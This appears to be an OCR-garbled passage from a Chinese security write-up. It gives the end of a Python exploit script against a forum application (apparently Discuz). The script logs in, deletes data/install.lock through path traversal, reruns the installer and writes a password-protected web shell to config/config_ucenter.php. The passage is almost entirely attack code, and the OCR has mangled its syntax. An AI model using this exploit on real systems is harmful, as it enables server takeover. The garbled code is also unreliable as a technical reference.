     'admininfo[email]': 'admin@admin.com',
}
r = sess.post(install_url, data=data)
if '建立数据表 CREATE TABLE' not in r.text:
    print('write shell failed')
    return False
print('shell: {}/config/config_ucenter.php'.format(target))
print('password: {}'.format(shell_password)) 
``` `if **name** == ‘**main**’:

login()

form_hash = get_form_hash()

if form_hash:

delete(form_hash, ‘…/…/…/data/install.lock’)

getshell()

else:

print(‘failed’)` 
```

## 参考链接

> https://xz.aliyun.com/t/7492#toc-7